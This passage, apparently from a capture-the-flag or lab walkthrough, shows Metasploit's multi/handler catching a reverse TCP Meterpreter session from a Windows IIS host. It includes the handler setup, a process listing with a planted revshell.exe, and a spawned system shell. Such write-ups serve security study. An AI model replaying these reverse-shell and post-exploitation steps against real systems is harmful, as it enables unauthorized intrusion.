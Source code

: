 Exploit target:

Id  Name
--  ----
0   Wildcard Target

msf5 exploit(multi/handler) > set LHOST <source-ip>
LHOST => <source-ip>
msf5 exploit(multi/handler) > set LPORT 4443
LPORT => 4443{% endraw %}{% endcapture %} {% include code.html code=code %}

Run the exploit to gain `meterpreter` shell and get system and process information.
{% capture code %}{% raw %}msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on <source-ip>:4443
[*] Sending stage (176195 bytes) to <target-ip>
[*] Meterpreter session 1 opened (<source-ip>:4443 -> <target-ip>:49303) at 2021-04-30 05:20:34 +0100

meterpreter > ps

Process List

PID   PPID  Name                  Arch  Session  User              Path
---   ----  ----                  ----  -------  ----              ----
0     0     [System Process]
4     0     System
348   672   svchost.exe
372   4     smss.exe
476   672   svchost.exe
524   516   csrss.exe
580   572   csrss.exe
592   516   wininit.exe
616   572   winlogon.exe
648   1348  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
672   592   services.exe
680   592   lsass.exe
740   672   svchost.exe
784   672   svchost.exe
860   616   dwm.exe
876   672   svchost.exe
908   672   svchost.exe
972   672   svchost.exe
1044  3048  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
1136  672   spoolsv.exe
1176  672   amazon-ssm-agent.exe
1240  672   svchost.exe
1272  672   LiteAgent.exe
1332  672   svchost.exe
1348  672   svchost.exe
1420  672   WService.exe
1548  2404  Message.exe
1552  1420  WScheduler.exe
1652  672   Ec2Config.exe
1784  740   WmiPrvSE.exe
1988  3048  revshell.exe          x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\revshell.exe
2016  672   svchost.exe
2404  1752  WScheduler.exe
2496  908   taskhostex.exe
2564  2556  explorer.exe
2912  672   msdtc.exe
3020  2520  ServerManager.exe
3048  648   cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe

meterpreter > shell
Process 2264 created.